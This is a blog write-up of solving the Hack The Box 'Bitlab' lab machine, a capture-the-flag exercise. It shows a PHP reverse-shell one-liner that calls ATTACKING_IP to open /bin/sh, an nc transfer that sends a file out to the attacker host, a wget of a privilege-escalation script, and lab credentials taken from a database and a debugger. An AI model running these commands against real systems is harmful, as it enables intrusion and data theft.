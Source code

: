 ```yaml
---
author: "Denis Nu\u021Biu"
categories:
- Hack The Box
date: '2019-12-16T21:50:37+00:00'
guid: https://nuculabs.dev/?p=643
id: 643
image: /wp-content/uploads/2019/12/fc29f-screenshot-2019-12-16-at-21.17.49.png
layout: post
permalink: /2019/12/16/htb-bitlab/
tags:
- bitlab
- hackthebox
- linux machine
- penetration testing
title: Hack The Box &#8211; Bitlab
---
```

Hello,


Here’s how I’ve solved the [Bitlab](https://www.hackthebox.eu/home/machines/profile/207) machine on Hack The Box.


## Gitlab Access


As usual we start of with a **nmap** scan:


```bash
root@kali:~# nmap -p- -sV 10.10.10.114
Nmap scan report for 10.10.10.114
Host is up (0.044s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 221.44 seconds
```
The scan shows an nginx web server and ssh. If we visit the web server we’ll find a Gitlab instance. Gitlab is used by developers to host their source code. I tried searching for exploits but nothing came up.


Poking around the Gitlab page, if we navigate to the **Help**, we’ll find an bookmark which is obfuscated javascript code. We can copy the code, go back to Gilab’s login page and paste the JS into our dev console. The JS auto completes the login info and we get access to the Gitlab as the Developer.


```
javascript:(function(){ var _0x4b18=["x76x61x6Cx75x65","x75x73x65x72x5Fx6Cx6Fx67x69x6E","x67x65x74x45x6Cx65x6Dx65x6Ex74x42x79x49x64","x63x6Cx61x76x65","x75x73x65x72x5Fx70x61x73x73x77x6Fx72x64","x31x31x64x65x73x30x30x38x31x78"];document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]]= _0x4b18[3];document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]]= _0x4b18[5]; })()
```

Credentials: clave:11des0081x

- - - - - -

## Initial Shell

As the developer we find two code repos, **Profile** and Deploy. We only care about the Profile one, any edits we make to the repo get reflected in the **http://10.10.10.114/profile** page, because Gitlab auto deploy is configured that way.

<figure class="wp-block-image size-large">![](https://i1.wp.com/nuculabs.dev/wp-content/uploads/2019/12/Screenshot-2019-12-15-at-20.37.15.png?fit=1024%2C640&ssl=1)</figure>Next, we can upload a [php-reverse shell ](https://github.com/flozz/p0wny-shell)and gain a TCP shell over netcat:

On my attacking machine I run **nc -nvlp 8080** and on the php reverse shell we run:

```bash
php -r '$sock=fsockopen("ATTACKING_IP", 8080);exec("/bin/sh -i <&3 >&3 2>&3");'
```
After I get the shell over netcat I turn it into a pty shell with the following command:

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```


I managed to transfer [Linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) by running **python -m SimpleHTTPServer 8080** on my attacking machine in the linpeas directory and **wget** MY\_IP/linpeas.sh on the victim machine.


![](https://i1.wp.com/nuculabs.dev/wp-content/uploads/2019/12/Screenshot-2019-12-15-at-20.58.45.png?fit=1024%2C623&ssl=1)
- - - - - -


## User Shell


Linpeas spit some interesting output but nothing practical came out of it. So I went back to Gitlab and browsed into the **snippets** section.


There’s a script which leaks the password, ip and username of the profiles database. We can use that to query the database by ourselves by running this in the terminal:


```bash
p0wny@shell:/tmp# php -r '$db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");$result = pg_query($db_connection, "SELECT * FROM profiles");print_r(pg_fetch_all($result));'
Array
(
    [0] => Array
        (
            [id] => 1
            [username] => clave
            [password] => c3NoLXN0cjBuZy1wQHNz==
        )


)
```
We login via ssh as **clave** and password: **c3NoLXN0cjBuZy1wQHNz==**.


On Clave’s home dir we find a binary called **RemoteConnection.exe**, we can transfer that to our attacking machine by using the following commands:


```
# On the attacking machine
root@kali:~# nc -nvlp 8080 > file.exe
# On the victim
clave@bitlab:~$ nc -w 3 10.10.14.19 8080 < RemoteConnection.exe 
```

- - - - - -

## Root Shell

The root shell is gained by reversing the binary we extracted. Reversing is a bit much as we only need to step through it in the debugger. For debugging I’ve used [x64dbg](https://x64dbg.com/#start).

<figure class="wp-block-image size-large">![](https://i0.wp.com/nuculabs.dev/wp-content/uploads/2019/12/root_pass.png?fit=1024%2C532&ssl=1)</figure>We can copy the root password from the debugger and voila, we got root.

```
EAX : 007FF8D0     &"-ssh root@gitlab.htb -pw "Qf7]8YSV.wDNF*[7d?j&eD4^""
EBX : 00000000
ECX : 99083A11
EDX : 00F90000
EBP : 007FF8FC
ESP : 007FF844
ESI : 007FF860
EDI : 007FF8D0     &"-ssh root@gitlab.htb -pw "Qf7]8YSV.wDNF*[7d?j&eD4^""
EIP : 00FD15E3     bitlabreverseengineering.00FD15E3
```

## Conclusions

Bitlab was an easyish machine but with some weird decisions, for example Clave’s password was hidden as JS in the **Help** page of the Gitlab instance ???

The PHP auto-deploy was nice and the reversing part was kinda unnecessary, it woulda been much nicer if the reversing were more statically focused rather than dynamic.

Thanks for reading and have a great day! &lt;3
